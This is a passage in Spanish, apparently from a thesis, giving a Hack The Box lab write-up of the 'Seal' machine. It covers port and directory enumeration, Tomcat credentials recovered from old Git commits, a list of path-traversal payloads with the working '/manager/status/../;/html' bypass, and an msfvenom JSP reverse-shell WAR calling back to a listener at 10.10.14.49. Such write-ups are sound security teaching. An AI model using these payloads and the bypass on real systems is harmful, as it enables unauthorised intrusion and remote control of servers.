Esta sección se realizará la máquina de \acrlong{HTB} llamada \textit{Seal}\cite{seal}. \textit{Seal} es una máquina de dificultad ``media``.

\subsection{Reconocimiento}
En la fase de reconocimiento hemos encontrado toda la información necesaria de la máquina en su página principal\cite{seal}. Se ha encontrado que es una máquina \textit{Linux} y que su \acrshort{ip} es \texttt{10.10.10.250}.\\

Dado que es un \acrshort{CTF}, no se ha visto la necesidad de profundizar más en esta fase.

\subsection{Enumeración}
\subsubsection{Puerto 8080}
Al igual que con la máquina anterior, l primer paso realizado en la enumeración es usar la herramienta \textit{Nmap}\cite{nmap}. Para ello se ha utilizado el siguiente comando.

\begin{lstlisting}[language=bash]
nmap -p- -o 00_nmap_ports.txt 10.10.10.245
\end{lstlisting}

El argumento \texttt{-p-} se ha utilizado para hacer un escaneo de todos los puertos, y el \texttt{-o} para guardar la salida en un archivo llamado \textit{00\_nmap\_ports.txt}.\\

Tras la ejecución\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/00_nmap_ports.txt}{Output de \textit{00\_nmap\_ports.txt}}} se han encontrado los puertos 22/\acrshort{tcp}, 443/\acrshort{tcp} y 8080/\acrshort{tcp}. El paso siguiente ha sido realizar un escaneo de nuevo con \textit{Nmap} pero esta vez para detectar los servicios y el sistema operativo. Para ello se ha utilizado el siguiente comando.

\begin{lstlisting}[language=bash]
sudo nmap -p 22,443,8080 -sS -sCV 10.10.10.250 -o 01_nmap_services.txt
\end{lstlisting}

Esta vez, el comando \texttt{-p} recibe los puertos obtenidos con el comando anterior, es decir, los puertos 22, 443 y 8080 \acrshort{tcp}. Se ha decidido hacer un escaneo de tipo \textit{Stealth}, ya que es la manera más rápida y popular para escanear en el protocolo TCP; para ello se ha utilizado el argumento \texttt{-sS}. Se ha utilizado el comando \texttt{-sCV} para obtener información sobre el servicio habilitado en el puerto (\texttt{-sV}) y para realizar el escaneo con los scripts por defecto de \textit{Nmap} (\texttt{-sC}). Por último, también se ha decidido guardar la salida del comando en un archivo (argumento \texttt{-o} llamado \textit{01\_nmap\_services}.txt.\\

Tras la ejecución\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/01_nmap_services.txt}{Output de \textit{01\_nmap\_services.txt}}} se ha encontrado que efectivamente, la máquina es un sistema \textit{Linux}, concretamente con el sistema operativo \textit{Ubuntu}. En el puerto 22/\acrshort{tcp} está levantado un servidor \acrshort{ssh}, está utilizando \textit{OpenSSH}\cite{openssh} versión 8.2p1. En el puerto 443/\acrshort{tcp} se ha encontrado desplegado un servidor \textit{Nginx}\cite{nginx} en la versión 1.18, además destaca  un \textit{commonName} con valor \texttt{seal.htb}. Por último, en el puerto 8080/\acrshort{tcp} un servidor \acrshort{http} proxy, de momento, se desconoce la tecnología o la versión.\\

Lo primero que se ha decidido hacer es investigar la web en el puerto 8080. Para ello, a la vez que se investigaba de manera manual, se ha utilizado la herramienta \textit{Gobuster}\cite{gobuster} para encontrar endpoints escondidos o no accesibles. Se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
gobuster dir -u http://10.10.10.250:8080 -w ~/Hacking/SecLists/Discovery/Web-Content/raft-medium-directories.txt --wildcard switch | anew 02_gobuster_8080.txt
\end{lstlisting}

Se ha elegido el argumento \texttt{dir} para realizar una búsqueda de directorios mediante fuerza bruta; el flag \texttt{-u} es el utilizado para pasar la \acrshort{url} que vamos  a escanear; el argumento \texttt{-w} se utiliza para pasarle a \textit{Gobuster} una lista de palabras para utilizar. En este caso se ha decidido usar la lista \textit{raft-medium-directories.txt} de \textit{SecLists}\cite{seclists}. El argumento \texttt{--wildcard switch} se ha introducido ya que la herramienta lo indicaba, dado que hay varias redirecciones en la \acrshort{url} principal. Por último, el resultado se ha decidido pasar a la herramienta \textit{anew}\cite{anew} porque también se ha realizado el mismo comando pero con la lista \textit{raft-medium-words.txt}.\\

En el resultado\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/02_gobuster_8080.txt}{Output de \textit{02\_gobuster\_8080.txt}}} se han encontrado muchas \acrshort{url}s con código \textit{401 - Unauthorized}, por eso se ha utilizado el siguiente comando para obtener todos los resultados cuyo código sea distinto a \textit{401}.
\begin{lstlisting}[language=bash]
cat 02_gobuster_8080.txt | grep -v -e "Status: 401" | sort
\end{lstlisting}

Se ha usado \textit{grep} para hacer una búsqueda, con los flags \texttt{-v} para que el comando devuelva los elementos que no coinciden con la expresión utilizada. El flag \texttt{-e} se utiliza para añadir la expresión a buscar, en este caso ``\textit{Satus: 401}``. Por último se ha utilizado \textit{sort} para ordenar la salida.\\

Se han encontrado las siguientes \acrshort{url}'s:
\begin{itemize}
    \item \texttt{/assets} (302 a \texttt{/assets/;jsessionid=node...} pero devuelve un \textit{403 - Forbbiden})
    \item \texttt{/register}
    \item \texttt{/signin}
\end{itemize}

Tras los resultados, se ha decidido entrar a la web, y se ha encontrado una página de login (figura \ref{fig:seal-8080-main}). En esa página se ha detectado que está corriendo un servicio llamado \textit{GitBucket}\cite{gitbucket}, que es un gestor de repositorios y control de versiones.\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.70\textwidth]{images/machines/seal/main-page.png}
    \caption{Seal: 8080 Login (\texttt{http://10.10.10.250:8080})}
    \label{fig:seal-8080-main}
\end{figure}

En esta página se ha intentado entrar con usuarios y contraseñas débiles, como \textit{admin:admin} y \textit{admin:Passw0rd} entre otras. Como no ha habido éxito, se ha decidido crear un nuevo usuario \textit{hacker69:1234Botella} y un correo temporal creado con \textit{TempMail}\cite{tempmail} \textit{nejew65102@timevod.com}.\\

Al registrarnos, nos logeamos y encontramos una página principal con varios repositorios (figura \ref{fig:seal-8080-main-logged}).\\

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.70\textwidth]{images/machines/seal/main-logged.png}
    \caption{Seal: 8080 con sesión iniciada (\texttt{http://10.10.10.250:8080})}
    \label{fig:seal-8080-main-logged}
\end{figure}

Tras investigar un poco, detectamos que se está ejecutando un \textit{Apache Tomcat} en el puerto 443.\\

Investigando archivos, encontramos un archivo con código comentado dónde se pueden poner usuarios por defecto para el servidor de \textit{Tomcat} (figura \ref{fig:seal-tomcat-users}-a).\\

Al ser esto un repositorio de \textit{Git}, se ha investigado \textit{commits} anteriores (figura \ref{fig:seal-tomcat-users}-b), por si se puede encontrar código antiguo relevante. Casualmente, se encuentran las credenciales del usuario \textit{tomcat} (figura \ref{fig:seal-tomcat-users}-c).\\

\begin{figure}
    \centering
    \subfloat[\centering \textit{Seal: 8080 Archivo \texttt{tomcat-users.xml} versión actual}]{{
\includegraphics[width=0.90\textwidth]{images/machines/seal/tomcat-users-actual.png}}}
    \qquad
    \subfloat[\centering \textit{Seal: 8080 Histórico del archivo \texttt{tomcat-users.xml}}]{{
\includegraphics[width=1.0\textwidth]{images/machines/seal/tomcat-users-history.png}}}
    \qquad
    \subfloat[\centering \textit{Seal: 8080 Archivo \texttt{tomcat-users.xml} antiguo}]{{
\includegraphics[width=1.0\textwidth]{images/machines/seal/tomcat-users-commit.png}}}
    \caption{Archivo \texttt{tomcat-users.xml}}
    \label{fig:seal-tomcat-users}
\end{figure}

Se ha mirado otros repositorios en esta web, pero no se ha encontrado nada más relevante.

\subsubsection{Puerto 443}

Lo primero que se intenta es acceder a la web principal (\texttt{https://10.10.10.250}, pero no tenemos acceso. Por eso, se ha decidido añadir el \textit{commonName} descubierto en la segunda ejecución de \textit{Nmap} (\texttt{seal.htb}) al fichero \texttt{/etc/hosts} (figura \ref{fig:seal-etc-hosts}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.80\textwidth]{images/machines/seal/etc-hosts.png}
    \caption{Fichero \texttt{/etc/hosts} con \texttt{seal.htb}}
    \label{fig:seal-etc-hosts}
\end{figure}

Tras modificar el archivo \texttt{/etc/hosts}, logramos entrar a la web escribiendo \texttt{\\https://seal.htb}. En esa dirección, encontramos una página web, como se muestra en la figura \ref{fig:seal-443-main}.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.60\textwidth]{images/machines/seal/seal-main.png}
    \caption{Seal: 443 - Página principal}
    \label{fig:seal-443-main}
\end{figure}

Mientras se investigaba manualmente la página, se ha utilizado de nuevo la herramienta \textit{Gobuster}\cite{gobuster}. Para ello se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
gobuster dir -u https://seal.htb -w ~/Hacking/SecLists/Discovery/Web-Content/tomcat.txt -k | anew 03_gobuster_433.txt
\end{lstlisting}

En este comando se han usado los argumentos que se han usado previamente, aunque esta vez, al saber que estaba ejecutándose un \textit{Apache Tomcat}, se ha decidido usar la wordlist \texttt{tomcat.txt}; también se ha utilizado el argumento \texttt{-k} para omitir las comprobaciones de certificados. Posteriormente se ha ejecutado el mismo comando con la wordlist \texttt{raft-medium-words.txt}.\\

Del resultado obtenido\footnote{\href{https://github.com/VictorNS69/TFM/blob/main/machines/seal/03_gobuster_433.txt}{Output de \textit{03\_gobuster\_433.txt}}} destacan:

\begin{itemize}
    \item \texttt{/host-manager/html/*} (Devuelve 403 - Forbbiden)
    \item \texttt{/host-manager}
    \item \texttt{/manager}
    \item \texttt{/manager/html} (Devuelve 403 - Forbbiden)
    \item \texttt{/manager/html/*} (Devuelve 403 - Forbbiden)
    \item \texttt{/manager/jmxproxy} (Devuelve 401 - Unauthorized)
    \item \texttt{/manager/jmxproxy/*} (Devuelve 401 - Unauthorized)
    \item \texttt{/manager/status/*} (Devuelve 401 - Unauthorized)
    \item \texttt{/manager/status.xsd}
\end{itemize}

\subsection{Ganando acceso}

Lo primero que se decide hacer es intentar entrar al servidor \acrshort{ssh} con las credenciales obtenidas y con credenciales comunes. Como se aprecia en la figura \ref{fig:seal-ssh-facil}, no tenemos éxito.

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.70\textwidth]{images/machines/seal/ssh-tomcat.png}
    \caption{Seal: Intento \acrshort{ssh} fallido}
    \label{fig:seal-ssh-facil}
\end{figure}

Dado nuestro fallido éxito con el servidor \acrshort{ssh}, se decide investigar las \acrshort{uri}s anteriores, pero solo en \texttt{/manager/status} podemos entrar, ya que nos pide usuario y contraseña, y estos, los habíamos conseguido anteriormente (figura \ref{fig:seal-tomcat-users}-c). Al entrar podemos comprobar la página de estado de \textit{Tomcat}. Vemos que se está ejecutando \textit{Apache Tomcat 9.0.31}\cite{tomcat}. Se decide buscar vulnerabilidades conocidas, pero no se encuentra nada explotable.\\

Entonces se decide investigar si se puede realizar \textit{path traversal} y así poder acceder a las \acrshort{uri}s \texttt{/manager/html/*} y \texttt{/manager/jmxproxy/*}. Se prueban varios payloads, como:
\begin{itemize}
    \item \texttt{/manager/status/../html}
    \item \texttt{/manager/status/../../manager/html}
    \item \texttt{/manager/status/..\textbackslash html}
    \item \texttt{/manager/status/\%2e\%2e/html}
    \item \texttt{/manager/status/\%2e\%2e\%2fhtml}
    \item \texttt{/manager/status/;/html}
    \item ...
\end{itemize}

Finalmente, damos con el payload correcto, \texttt{/manager/status/../;/html}. Probamos con el mismo payload, pero intentando acceder a \texttt{jmxproxy}, pero aparece una página de ayuda de \textit{Tomcat}. En la página encontramos la opción de desplegar un archivo \texttt{.war} a la web, por eso, se decide utilizar la herramienta \textit{msfvenom}\cite{msfvenom} para crear una shell remota. Lo logramos con:
\begin{lstlisting}[language=bash]
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.49 LPORT=6969 -f war > shell.war
\end{lstlisting}

Antes de subir el archivo al servidor, se ha creado un \textit{netcat}\cite{netcat} local para cuando se establezca la ćonexión. Para ello, se ha utilizado el siguiente comando.
\begin{lstlisting}[language=bash]
nc -lvnp 6969
\end{lstlisting}

Al subir el archivo a la web, esta nos devuelve un código \textit{403 - Forbidden}, por lo que decidimos interceptar la llamada con \textit{Burp Suite}\cite{burpsuite}. Rápidamente nos damos cuenta que, la \acrshort{url} utilizada en la petición es \texttt{/manager/html/} (figura \ref{fig:seal-war-no-editado}), por eso se edita para que sea \texttt{/manager/status/../;/html/} y con eso, logramos subir el archivo \texttt{shell.war} (figura \ref{fig:seal-war-editado}).

\begin{figure}[h]
    \centering
    
\includegraphics[width=0.95\textwidth]{images/machines/seal/war-sin-editar.png}
    \caption{Seal: Subida de \texttt{shell.war} fallida}
    \label{fig:seal-war-no-editado}
\end{figure}

\begin{figure}[h]
    \centering
